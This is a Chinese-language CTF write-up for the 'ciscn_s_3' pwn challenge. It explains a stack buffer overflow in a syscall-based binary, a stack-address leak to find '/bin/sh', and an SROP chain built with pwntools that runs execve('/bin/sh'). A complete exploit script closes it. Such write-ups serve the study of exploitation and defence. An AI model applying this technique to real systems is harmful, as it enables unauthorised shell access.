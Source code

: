 ## 0x001 程序分析

分析程序主函数，该程序的main函数中直接调用了vuln函数

![](1.png)

在vuln函数函数中，调用了两个 **syscall** 系统调用，先读取输入，然后再打印出来。

## 0x002 漏洞分析

程序中的漏洞很明显，**sys_read** 接收输入长度为0x400，远远超过了 **buf** 的长度，造成栈溢出。

使用checksec查看，程序只开启了NX。

![](2.png)

## 0x003 漏洞利用

程序开启了NX保护，漏洞是栈溢出，很容易想到构造ROP来完成利用。

程序中没有 **system** 函数，也没有 **"/bin/sh"** 字符串，那么按照以往的思路来看，就是利用 **write** 来泄露函数真实地址，然后使用LibcSearcher或者DynELFl来泄露 **system** 函数地址，完成漏洞利用。但是这个程序的got表中，没有用到什么函数， **read** 和 **write** 也是通过 **syscall** 系统调用完成的，因此这个方法不太可行。

还有一种就是利用 **syscall** 系统调用来执行 **execve("/bin/sh", 0, 0)** 命令获取系统权限。

这种方法首先需要获取 **/bin/sh** 的地址，可以再输入的时候将 **/bin/sh** 放到栈中，然后通过 **sys_write** 泄露栈地址，通过偏移计算出 **/bin/sh** 的地址。

使用GDB调试看下，

![](3.png)

在距离 **/bin/sh** 32字节的地方，有一个栈地址，可以通过泄露这个地址，我这里用的是kali操作系统，距离 **/bin/sh** 的偏移是 0x128 (ubuntu18.04中这个偏移是0x118)

```
payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x128
```

有了 **/bin/sh** 的地址，接下来就是调用 **execve** 函数，可以使用 **syscall** 系统调用来完成。使用 **syscall** 执行 **execve("/bin/sh", 0, 0)** 命令的参数为

```
rax = 59
rdi = "/bin/sh"
rsi = 0
rdx = 0
```

给这几个寄存器赋值可以通过寻找 **gadgets** 配合 **__libc_csu_init** 完成，但是通过这种方式来完成ROP太过复杂，这里学到了更好用的方法 SROP。

关于SROP的原理就不多说了，网上有很多。利用SROP需要设置 **syscall** 的参数 **rax=15**，调用 **stub_rt_sigreturn** 函数完成对寄存器的赋值，可以使用pwntools提供的工具来进行利用。

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
```

新构造的ROP中，先填充数据，然后利用程序中的gadgets将rax赋值为15，最后使用syscall，将后面 **sigframe** 中构造好的内容赋值到寄存器中，完成 **execve("/bin/sh", 0, 0)** 命令的执行，最终获取系统权限。

最终exp如下：
```
from pwn import *

context.arch = 'amd64'
p = process('./ciscn_s_3')
elf = ELF("ciscn_s_3")

syscall_ret_addr = 0x0400517
syscall_read_addr = 0x04004F1
gadgets_addr = 0x04004DA

payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x118

sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
p.interactive()
```